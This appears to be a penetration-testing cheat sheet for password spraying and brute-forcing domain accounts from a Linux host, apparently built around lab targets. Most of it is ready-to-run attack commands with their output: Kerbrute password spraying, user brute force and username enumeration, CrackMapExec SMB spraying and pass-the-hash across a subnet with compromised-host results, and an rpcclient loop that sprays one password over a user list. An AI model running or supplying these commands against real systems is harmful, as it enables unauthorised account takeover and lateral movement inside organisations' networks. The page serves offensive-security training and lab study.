 ```yaml
---
description: >-
  This page is for password spraying when we have access to a Linux host inside
  the internal network.
---
```


# Brute Force / Password Spraying - Linux Tools

***

## Kerbrute

<mark style="color:yellow;">**Kerbrute is a great tool if we don't have a username:password yet**</mark>, but we want to attempt to brute force our way in. We can brute force usernames or passwords... as well as spray a discovered credential.

```
$ ./kerbrute -h

 


Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit
```

### Spray Password

If we discover a credential, we can spray it against known users.

```shell-session
attacker@kali$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds\
```

### Password Brute Force

If we have discovered usernames but no password, we can try to brute force valid credentials.

```shell-session
attacker@kali$ kerbrute bruteuser --dc intelligence.htb -d intelligene.htb /usr/share/wordlists/rockyou.txt William.Lee

   __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88
```



### Username Brute Force

If we don't have anything, we try to find valid kerberos usernames with a usernames wordlist.

```shell-session
attacker@kali$ kerbrute userenum --dc intelligence.htb -d intelligene.htb users.txt

   __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88
```

## CrackMapExec

### Password Spray / Brute Force

We can use crackmapexec to brute force passwords, usernames, and spray when we discover a new credential. It is an invaluable tool to have in our toolbox.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
</strong>
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
</code></pre>

### **CrackMapExec --local-auth**

<mark style="color:yellow;">**It's important to always test for local windows authentication as well as domain authentication when discovering a password**</mark>

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
</strong>
SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
</code></pre>



## rpcclient

**Using a Bash one-liner for the Attack**

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
